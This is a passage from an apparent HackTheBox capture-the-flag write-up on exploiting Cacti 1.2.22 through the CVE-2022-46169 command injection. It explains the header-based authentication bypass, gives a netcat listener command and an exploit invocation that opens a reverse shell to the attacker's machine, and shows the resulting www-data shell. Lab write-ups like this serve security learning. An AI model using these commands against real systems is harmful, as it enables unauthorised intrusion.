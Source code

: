 ![monitorstwo](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/monitorstwo/1.png)

## Exploitation 
Googling `cacti 1.2.22 exploit` shows several websites highlighting CVE-2022-46169, a command injection vulnerability for cacti 1.2.22. Rapid7 generally has good write-ups on exploits, I found [this](https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/) post that gives a good explanation of the vulnerability. 

The tl;dr of the exploit is that by setting the `X_FORWARDED_FOR_IP` to `127.0.0.1` in your request bypasses authentication. After fuzzing for valid integers in two of the parameters, `poller_id` can be injected into. 

I went ahead and wrote my own exploit for this [here](https://github.com/0xZon/CVE-2022-46169-Exploit). It will brute force the correct parameters and then inject a reverse shell payload. I set up a listener on my local machine with netcat `nc -lvnp 9001`. Then I ran the exploit against the target `python3 CVE-2022-46169.py -url http://10.10.11.211/ -lhost 10.10.14.3 -lport 9001`

The result is a shell as `www-data`
```
[zonifer@dell monitorsTwo]$ nc -lvnp 9001
Connection from 10.10.11.211:33342
whoami
www-data
```

This shell is not the greatest, and my usual python3 upgrade did not work. I ended up using a new way that I learned to get a better shell via `script`
